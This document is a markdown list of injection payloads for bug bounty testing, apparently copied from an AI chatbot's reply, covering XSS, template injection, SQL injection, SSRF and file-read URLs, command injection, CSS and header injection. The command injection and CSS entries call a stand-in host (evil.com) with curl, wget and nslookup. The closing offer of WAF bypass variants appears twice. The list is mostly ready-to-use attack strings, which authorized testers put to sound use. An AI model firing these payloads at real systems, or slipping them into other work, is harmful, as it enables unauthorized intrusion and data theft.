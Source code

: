 
# 🧨 Bug Bounty Polyglot Payload Collection




## 🔹 Universal HTML/JS Polyglots

These are designed to break out of contexts and trigger different types of injections:

```js
'"/><img src=x onerror=alert(1)>  // Basic HTML/JS injection
"><svg/onload=alert(1)>            // SVG tag payload
<script>alert(1)</script>         // Script tag
```

## 🔹 Polyglots for SSTI/CSTI/Template Injection

Test for template expression contexts in various engines (Jinja2, Handlebars, etc.):

```txt
${{7*7}}                 // JavaScript/Handlebars CSTI
{{7*7}}                  // Jinja2 (Python)
#{7*7}                   // Ruby ERB
<%= 7*7 %>               // JSP / ERB
```

## 🔹 SQLi + XSS + HTML Polyglots

Useful for fuzzing to detect multiple injection points:

```sql
'"--><script>alert(1)</script>   -- SQLi + XSS
'||1=1--><img src=x onerror=alert(1)> // SQLi bypass + XSS
' OR 1=1 --
```

## 🔹 URL Polyglots (for SSRF, Redirects, etc.)

```txt
http://127.0.0.1@evil.com/          // SSRF bypass using @
http://[::]                        // IPv6 localhost
file:///etc/passwd                // LFI test
```

## 🔹 Command Injection Polyglots

```bash
;curl evil.com  # Bash injection
`wget evil.com` // Command substitution
$(id)           // Bash injection in forms
|nslookup evil.com
```

## 🔹 CSS Injection Polyglots

```css
body{background:url('http://evil.com')}
<style>@import 'http://evil.com'</style>
```

## 🔹 JSON Polyglots

Used in API fuzzing or request bodies:

```json
{"key": "value", "malicious": "<script>alert(1)</script>"}
{"key": "${{7*7}}"}
```

## 🔹 HTTP Header Injection

```http
X-Forwarded-For: 127.0.0.1\r\nInjected-Header: yes
Referer: http://evil.com\r\nSet-Cookie: session=attacker
```

## 🔹 Full Context-Breaking Polyglot

```txt
'">{{7*7}}<script>alert(1)</script><!--
```

---

Let me know if you want:

- 🧪 More advanced payloads for each category
- 📦 Integration-ready Burp Intruder list
- 🛡️ WAF bypass variants
- 📄 PDF / CSV export for offline use

Here's your custom **Bug Bounty Polyglot Payload Collection**, organized by **injection context** and suitable for use in manual testing, Burp Suite, or automated recon:

👉 [View in Canvas on the side]

Let me know if you want:

- Full bypass variants for WAFs or specific security controls
- Integration into Burp Intruder, ZAP, or other tools
- A printable or CSV version for field use